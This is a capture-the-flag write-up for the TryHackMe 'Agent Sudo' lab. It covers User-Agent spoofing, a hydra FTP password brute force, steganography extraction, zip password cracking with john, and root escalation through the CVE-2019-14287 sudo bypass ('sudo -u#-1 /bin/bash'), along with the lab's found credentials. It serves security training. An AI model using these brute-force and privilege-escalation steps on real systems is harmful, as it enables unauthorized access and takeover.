# TryHackMe – Agent Sudo Write-up

## Nmap Scan
#### Command: 
 nmap -sV 10.48.183.107
#### Output:

 

## Directory enumeration 
#### Command:
 gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt
#### Output:



#### Command: 
 curl http://IP   
#### Output:

 
#### Note: 
 The User-Agent header is sent by the client in an HTTP request, it contains information about the application, operating system, and platform.

#### Command:
 I sent a request using curl with "R" as a User-Agent 
 
 curl -A "R" -i  http://IP
#### Output:

 
 the server returned a different response. 

 I modified the User-Agent header by iterating through alphabetic values to bypass the filter.
#### Command:
 curl -A "C" -i http://IP
#### Output:



 The server returned a Location header pointing to a file named agent_C_attention.php
#### Command:
 curl -i http://IP/agent_C_attention.php  
#### Output:

 
 the agent name is chris 

## ftp BruteForce
#### Command:
 hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://IP
#### Output:



password found : crystal

## ftp Connection (as chris)
#### Command:
  ftp chris@IP
#### Output:

 
 
### getting all the files found
#### Command: 
 get To_agentJ.txt
 get cute-alien.jpg
 get cutie.png

 
 
#### Command: 
 cat To_agentJ.txt  
#### Output:

 

## Steganography
### Searching in cute-alien.jpg 
#### Command: 
 stegseek cute-alien.jpg 
#### Output:


#### Command: 
 cat cute-alien.jpg.out
#### Output:

 SSH login password : hackerrules!

### Searching in cute-alien.jpg 
#### Command: 
 binwalk cutie.png
#### Output:



 we found a zip archive data named To_agentR.txt

#### Command: 
 binwalk -e cutie.png
#### Output:
 archives extracted :

 

 

 archive is protected by a password

## Cracking Zip file password
### generate hash:
#### Command: 
 zip2john 8702.zip > hash.txt

### password bruteforce:
#### Command: 
 john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
#### Output:



 Zip file password: alien
#### Command:
 7z x 8702.zip

 

 

## SSH Access (as james)
#### Command:
  ssh james@IP
  password : hackerrules!
#### Output:



 i found an image called Alien_autospy.jpg , let's download it 
 
#### Command:
 scp james@IP:/home/james/Alien_autospy.jpg

 

## OSINT
#### Command:
  open Alien_autospy.jpg
#### Output:

 

Searching for this image on google images : Roswell alien autopsy

## Privilege escalation
#### Command:
  sudo -l
#### Output:

 

james can run /bin/bash with sudo but not as root

### looking for the CVE:
#### Command:
  sudo --version
#### Output:



#### Note:
CVE-2019-14287 is a privilege escalation vulnerability in older versions of sudo, it occurs when a user is allowed to run commands as any user except root. Although this configuration is meant to prevent access to the root account, sudo only checks the username root and does not correctly validate UIDs. By specifying a UID of -1, which is interpreted as UID 0 (root), we can bypass the restriction and execute commands with root privileges.

#### Command:
  sudo -u#-1 /bin/bash
#### Output:


#### Note:
  The -u#-1 option tells sudo to run the command as a user specified by a numeric ID, and because -1 is treated as UID 0, it effectively runs the command as root.

